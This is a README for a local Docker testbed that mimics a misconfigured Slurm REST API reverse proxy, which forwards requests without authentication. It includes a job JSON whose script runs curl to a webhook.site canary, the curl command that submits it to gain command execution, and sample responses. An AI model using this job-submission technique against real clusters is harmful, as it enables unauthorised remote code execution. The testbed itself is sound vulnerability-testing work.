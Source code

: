 # Slurm Testbed

## Overview
The Slurm Rest API requires authentication by default. However, a common configuration involves using a reverse proxy that (theoretically) should authenticate the user with some other methods and, if successful, authenticates towards the Slurm Rest API using an hardcoded JWT token that injected into the forwarded request's headers.

This configuration is reported in the official documentation [here](https://slurm.schedmd.com/rest.html#auth_proxy) and with an implementation example [here](https://gitlab.com/SchedMD/training/docker-scale-out/-/tree/production/proxy).

If the reverse proxy is misconfigured to simply forward the requests without any authentication steps, it will allow anyone to use the API and get RCE by submitting malicious jobs to the cluster.

## This testbed

To simulate an insecure Rest API proxy, a Caddy server is deployed in reverse-proxy mode on `127.0.0.1:8080`. The reverse proxy authenticates with the Slurm Rest API via a pre-generated JWT token with no expiration, this way there's no need to generate a new token every time the testbed is launched.

The secure Slurm Rest API is also exposed on `127.0.0.1:6820` for testing purposes.

## Testbed Setup

To start the testbed, simply run `docker compose up`

## Test the vulnerability
You can test the vulnerability by modifying the `script` field in the `rest_api_test.json` file to the desired command to execute. For example, you can get a canary URL from a service like [webhook.site](https://webhook.site) and run a curl command to receive a callback. Here's an example:
```json
{
    "job": {
        "name": "test",
        "ntasks": 1,
        "current_working_directory": "/tmp",
        "environment": [
            "PATH:/bin:/usr/bin/:/usr/local/bin/"
       ]
    },
    "script": "#!/bin/bash\ncurl https://webhook.site/11b9a510-d69d-4f51-9f93-5d236c72e6c1"
}
```
Note: make sure to keep the shebang (`#!/bin/bash\n`) at the start of the string.

Then you can submit the job using curl:
```sh
curl http://127.0.0.1:8080/slurm/v0.0.39/job/submit -H "Content-Type: application/json" -d @rest_api_test.json
```

A response from a vulnerable API will look like this:
```json
{
  "meta": {
    "plugin": {
      "type": "openapi\/v0.0.39",
      "name": "Slurm OpenAPI v0.0.39",
      "data_parser": "v0.0.39"
    },
    "client": {
      "source": "[api-proxy.slurm-testbed_slurm-testbed-network]:10988"
    },
    "Slurm": {
      "version": {
        "major": 24,
        "micro": 4,
        "minor": 5
      },
      "release": "24.05.4"
    }
  },
  "errors": [],
  "warnings": [],
  "result": {
    "job_id": 11,
    "step_id": "batch",
    "error_code": 0,
    "error": "No error",
    "job_submit_user_msg": ""
  },
  "job_id": 11,
  "step_id": "batch",
  "job_submit_user_msg": ""
}
```

To check a non-vulnerable API, you can send the request to the original Rest API on port 6820, which requires authentication by default, therefore not vulnerable:
```sh
curl http://127.0.0.1:6820/slurm/v0.0.39/job/submit -H "Content-Type: application/json" -d @rest_api_test.json

Authentication failure
```

As you can see, the authentication fails and the request is rejected.